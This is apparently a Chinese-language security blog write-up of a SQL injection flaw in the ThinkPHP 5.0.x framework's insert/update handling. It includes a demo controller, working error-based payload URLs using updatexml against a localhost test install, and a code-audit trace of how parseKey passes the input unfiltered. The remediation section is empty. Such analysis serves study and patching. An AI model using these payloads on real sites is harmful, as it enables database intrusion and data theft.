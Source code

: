 # 原创
：  ThinkPHP5.0.x SQL注⼊

# ThinkPHP5.0.x SQL注⼊

#### ThinkPHP5.0.x SQL注⼊

## 漏洞描述

> 
尽管`ThinkPHP 5.0.x框架`采用了参数化查询方式来操作数据库，但是在 `insert` 和 `update` 方法中，传入的参数可控，且无严格过滤，最终导致SQL注入漏洞发生


## 初始配置

> 



```
&lt;?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $name = input("get.name/a");
        Db::table("users")-&gt;where(["id"=&gt;1])-&gt;insert(["username"=&gt;$name]);
        return '&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:)&lt;/h1&gt;&lt;p&gt; ThinkPHP V5&lt;br/&gt;&lt;span style="font-size:30px"&gt;十年磨一剑 - 为API开发设计的高性能框架&lt;/span&gt;&lt;/p&gt;&lt;span style="font-size:22px;"&gt;[ V5.0 版本由 &lt;a href="http://www.qiniu.com" target="qiniu"&gt;七牛云&lt;/a&gt; 独家赞助发布 ]&lt;/span&gt;&lt;/div&gt;&lt;script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"&gt;&lt;/script&gt;&lt;script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;thinkad id="ad_bd568ce7058a1091"&gt;&lt;/thinkad&gt;';
    }
}

```

> 
配置数据库相关文件，并开启thinkphp的调试功能


## 漏洞利用

> 
Payload：


```
http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=inc&amp;name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&amp;name[2]=1
或者
http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=dec&amp;name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&amp;name[2]=1

```

## 漏洞分析

### ThinkPHP5.0.x目录结构

```
thinkphp  应用部署目录
├─application           应用目录（可设置）
│  ├─common             公共模块目录（可更改）
│  ├─index              模块目录(可更改)
│  │  ├─config.php      模块配置文件
│  │  ├─common.php      模块函数文件
│  │  ├─controller      控制器目录
│  │  ├─model           模型目录
│  │  ├─view            视图目录
│  │  └─ ...            更多类库目录
│  ├─command.php        命令行工具配置文件
│  ├─common.php         应用公共（函数）文件
│  ├─config.php         应用（公共）配置文件
│  ├─database.php       数据库配置文件
│  ├─tags.php           应用行为扩展定义文件
│  └─route.php          路由配置文件
├─extend                扩展类库目录（可定义）
├─public                WEB 部署目录（对外访问目录）
│  ├─static             静态资源存放目录(css,js,image)
│  ├─index.php          应用入口文件
│  ├─router.php         快速测试文件
│  └─.htaccess          用于 apache 的重写
├─runtime               应用的运行时目录（可写，可设置）
├─vendor                第三方类库目录（Composer）
├─thinkphp              框架系统目录
│  ├─lang               语言包目录
│  ├─library            框架核心类库目录
│  │  ├─think           Think 类库包目录
│  │  └─traits          系统 Traits 目录
│  ├─tpl                系统模板目录
│  ├─.htaccess          用于 apache 的重写
│  ├─.travis.yml        CI 定义文件
│  ├─base.php           基础定义文件
│  ├─composer.json      composer 定义文件
│  ├─console.php        控制台入口文件
│  ├─convention.php     惯例配置文件
│  ├─helper.php         助手函数文件（可选）
│  ├─LICENSE.txt        授权说明文件
│  ├─phpunit.xml        单元测试配置文件
│  ├─README.md          README 文件
│  └─start.php          框架引导文件
├─build.php             自动生成定义文件（参考）
├─composer.json         composer 定义文件
├─LICENSE.txt           授权说明文件
├─README.md             README 文件
├─think                 命令行入口文件

```

### Payload说明

> 
Payload：`http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=inc&amp;name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&amp;name[2]=1`


```
http://localhost/thinkphp/  public/        index.php/   index/   index/   index
       域名       网站目录    对外访问目录    入口文件       前台     控制器    方法名

```

### Application\index\controller\Index.php补充代码说明

```
$name = input("get.name/a");
input()为TP框架的助手函数，get.name/a 表示获取get传入的name变量，并将其强制转换为数组类型

```

```
Db::table("users")-&gt;where(["id"=&gt;1])-&gt;insert(["username"=&gt;$name]);
TP框架采用的是PDO方式对数据库进行查询

```

### 本地代码审计

> 
首先通过TP框架的助手函数`input`获取到参数，name变量情况如下


> 
跟进`thinkphp/library/think/db/Query.php`中的`where`方法，再跟进`insert`方法，找到`$sql = $this-&gt;builder-&gt;insert($data, $options, $replace);`，跟进去


> 
跟进到`thinkphp/library/think/db/Builder.php`，找到`$data = $this-&gt;parseData($data, $options);`，跟进去


> 
跟进`parseData`方法，可以看出`$val`是数组，且根据`$val[0]`值为inc，通过switch语句进入`parseKey`方法


> 
跟进`thinkphp/library/think/db/builder/Mysql.php`的`parseKey`方法，此处并未对传入的`$key`进行更多的过滤与检查，最后返回的仍然是`1 and (updatexml(1,concat(0x7,user(),0x7e),1))`


> 
回到`parseData`方法，`floatval($val[2])`返回`1`，这也正是Payload传入`username[2]=1`的原因，将其与前面经过`parseKey`方法的结果进行拼接后返回给result


> 
回到`thinkphp/library/think/db/Builder.php`的`insert`方法中，可以看到返回的`$sql`成功造成了sql注入


## 漏洞修复

> 


